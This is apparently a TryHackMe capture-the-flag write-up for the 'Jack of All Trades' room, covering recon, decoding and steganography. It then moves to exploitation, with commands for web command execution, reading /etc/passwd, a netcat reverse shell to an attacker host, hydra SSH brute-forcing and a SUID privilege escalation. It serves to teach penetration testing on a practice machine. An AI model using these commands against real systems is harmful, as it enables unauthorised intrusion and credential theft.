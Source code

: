 ```yaml
---
title: THM Jack of All Trades
date: 2021-01-23 14:30:00 +0000
categories: [Security, TryHackMe]
tags: [thm, jack, writeup]     # TAG names should always be lowercase
---
```


# Introduction
Not a lot of information inside this room. So let's use standard way of discovering.

# Reconnaissance
Use nmap to analyse the deployed room
```console
nmap -sV -O <ip> -v
```

Have a detailled look on the answer because there is something special inside the result.
OpenSSH is deployed on port 80
Apache is deployed on port 22

Use your browser to connect on the apache service on port 22.
At least with Firefox, you will encountered an issue to connect on port 22 because this is a restricted port and Firefox block the access.

To force the connection, you can follow this step
Open a new firefox tab and type about:config in the address bar.
Try to found the following key : ```network.security.ports.banned.override```
If it exist, you can change the value to have port 22 on it.
If it is not existing you can create a new value inside this page, right click anywhere on the page and choose New > String
Paste the value name inside the dialog box : ```network.security.ports.banned.override```
In the port number dialog box, choose 22.

Then retry your access to the website on port 22 and it should work.

We found a - normal - website with some text inside. Nothing to exploit at first view, continue the reconnaissance.
Check source code
We found an interresting information inside. Let's have a look after and continue reconnaissance.
Check web delovopment tools (network, console, ...)
We found another interresting stuff with an image named stego. Put away this information, we will maybe need it after.
Analyze the website with gobuster to found potential other information.
```console
gobuster dir -u <ip> -w /usr/share/wordlists/dirb/big.txt
```
Nothing found on this way.

During the analysis go back to the information found inside the source code.
Go the ```/recovery.php``` path.
We found a login page with user/password.
Below, we have a very very long string (```UmVtZ[...]xCg==```)... Let's analyze it to found what is behind. You can use CyberChef to identify what is the hidden value.
As it is finishing by == it is probably a base64 encoding value. Let's use a ***```***From Base64*** recipe to decode the string. 
And here we are, we found interresting information with a password.

Observe ```/recovery.php``` source code page to found another encoding value (```GQ2TO[...]DINQ=```).
Let's identify the type now. Base64 is not working, let's try other baseXX.
Base32 provide something which seems to be hexadecimal. Let's add another transformation "From Hex".
The result is not understandable but looks like a valid entropy with a score of 4.43 (Standard English is usually somewhere between 3.5 and 5).
Let's try another transformation with ROT13.
Here we are, we found the information hidden inside the value. It said that the information about the login name is hidden inside the homepage. 
We also have a little hint with a link to Stegosauria's wikipedia. This should be link to the stego file we discover at the begining.

Let's start an steganograpy analysis of the stego.png file.
Download the file and start the analysis with steghide
```console
steghide extract -sf stego.jpg
```
Steghide is requested a passphrase. Let's use the one we found inside the first encoding value. It works and extracted data are available inside creds.txt.
Let's open the file
```console
cat creds.txt
```
Bad news! No login information but the message says that we are on the right path. Let's try another image of the home page.

There is two other image in the homepage (header.jpg & jackinthebox.jpg). Analyze both with steghide again.
```console
steghide extract -sf jackinthebox.jpg
```
Enter previous passphrase
No result.

```console
steghide extract -sf header.jpg
```
Enter previous passphrase
Here we have a result. Data are extracted to cms.creds. Open the file.
```console
cat cms.creds
```

Let's use this information on the ```recovery.php``` page.

Login/password works well and redirect us to a secret path (```nn[..]OV/index.php```)
Login page show the following text:
> GET me a 'cmd' and I'll run it for you Future-Jack

What does it means ?
My first understanding is that we can use this page with a GET parameter to receive the answer. Let's try something simple to start:
```console
curl GET <ip>:22/nn[..]OV/index.php?cmd=whoami
```
And we have the result of whoami command inside the Response page..

Let's try a path traversal attack
```console
curl GET <ip>:22/nn[..]OV/index.php?cmd=cat ../../../../../../../etc/password
```
We have the result but nothing to exploit except that a user named jackhave access to the machine (obvious because we found the signature Jack inside the website)

Let's try to open a reverse shell to have a better access on the webserver.
On the attack machine, start a listener with
```console
nc -nvlp 1234
```
Then execute the following web request to execute the reverse shell
```console
curl GET <target_ip>:22/nn[..]OV/index.php?cmd=nc -e /bin/sh <attack_ip> <port_attack_ip>
```
Here we have our reverse shell.
Let's try to found a way to change user to jack.

Navigate inside the machine and then we found an interresting file named ```'jack's_password_list'``` inside ```/home``` which is read access to everybody. 
Let's use this list to bruteforce the ssh access of jack user with hydra.
```console
hydra -l jack -P jacks_password_list.txt -s 80 <ip> ssh
```
Remember that SSH port is on port 80 (instead of 22 usualy).

And hydra found the good password. Let's open the SSH connection with jack
```console
ssh -p 80 jack@<ip>
```
Enter password found by hydra

and we found an image file inside ```/home/jack```. Open the image file to found a flag inside the recipe :)

# Privilege Escalation
Before using an enumeration script like LinEnum, I always check some basic privilege escalation like the follow:
```console
sudo -l
```
Nothing to see here.

Search for SUID files
```console
find / -perm /4000 2>/dev/null
```
> perm 4000 allow us to search file with SUID bit set.

Here we have some interesting answer. Let's compare the output of the command with the list available at [GTFOBins websites](https://gtfobins.github.io/)
We found that strings executable could be used to read files as root when SUID bit is set on the binary.
so let's try with a basic file ```/root/root.txt``` (usualy the flag is here).
```console
strings /root/root.txt
```
Bingo, we found the root flag.
